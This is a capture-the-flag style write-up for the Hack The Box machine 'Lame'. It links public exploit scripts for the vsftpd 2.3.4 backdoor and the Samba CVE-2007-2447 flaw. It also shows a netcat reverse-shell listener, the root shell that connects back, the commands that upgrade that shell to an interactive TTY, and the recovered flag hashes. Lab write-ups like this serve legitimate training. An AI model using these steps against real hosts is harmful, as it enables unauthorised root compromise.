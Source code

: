 ## EXPLOITATION
### FTP - TCP 21 - vsftp 2.3.4 - CVE-2011-2523

There are a number of Python scripts that can be downloaded to exploit this vulnerability.
[https://github.com/padsalatushal/CVE-2011-2523/blob/main/exploit.py] (https://github.com/padsalatushal/CVE-2011-2523/blob/main/exploit.py)
[https://github.com/HerculesRD/vsftpd2.3.4PyExploit"] (https://github.com/HerculesRD/vsftpd2.3.4PyExploit)

These exploits should open port 6200 on the exploited host and allow us to connect to a shell on the port. In testing these scripts we find that we are unable to connect.
While the version reported in the nmap scan shows as vulnerable, we are unable to exploit this route.

### SAMBA - TCP 445 - CVE-2007-2447
There are a number of Python scripts available to exploit this vulnerability.
[https://github.com/xbufu/CVE-2007-2447] (https://github.com/xbufu/CVE-2007-2447)
[https://github.com/Ziemni/CVE-2007-2447-in-Python] (https://github.com/Ziemni/CVE-2007-2447-in-Python)
Using these scripts we can get a reverse shell on our preferred port. Here we use netcat to listen on port 6666 for the connection.
We started a bash shell on the attack box before starting up netcat as we will want to upgrade the reverse shell to a fully interactive TTY and the “stty raw -echo” command does not function very well with zsh which is now the default shell in Kali Linux.
Once our reverse shell from one of the above scripts is connected back we can upgrade the shell to interactive using 
```bash
python -c 'import pty;pty.spawn(/bin/bash)';
Ctrl+Z
stty raw -echo; fg
```
The reverse shell is running as root so we do not need to perform any privilege escalation on this box and we can find and view all flags.

```bash 
┌──(downeg㉿tholia)-[~/htb/boxes/lame]
└─$ /bin/bash -p
┌──(downeg㉿tholia)-[~/htb/boxes/lame]
└─$nc -lnvp 6666</span>
listening on [any] 6666 ...
connect to [10.10.14.212] from (UNKNOWN) [10.129.22.206] 48479
python -c 'import pty;pty.spawn("/bin/bash")'
root@lame:/# ^Z
[1]+  Stopped                 nc -lnvp 6666
┌──(downeg㉿tholia)-[~/htb/boxes/lame]
└─$ stty raw -echo;fg
nc -lnvp 6666
root@lame:/# ls
bin    etc         initrd.img.old  mnt        root  tmp      vmlinuz.old
boot   home        lib             nohup.out  sbin  usr
cdrom  initrd      lost+found      opt        srv   var
dev    initrd.img  media           proc       sys   vmlinuz
root@lame:/# cat `find / -name user.txt`
4725c27cf2adbca76580d99bb867bc7b
root@lame:/# cat `find / -name root.txt`
2daa373250e6f300d3808b2cbc4fec3f
root@lame:/#
```

The end.
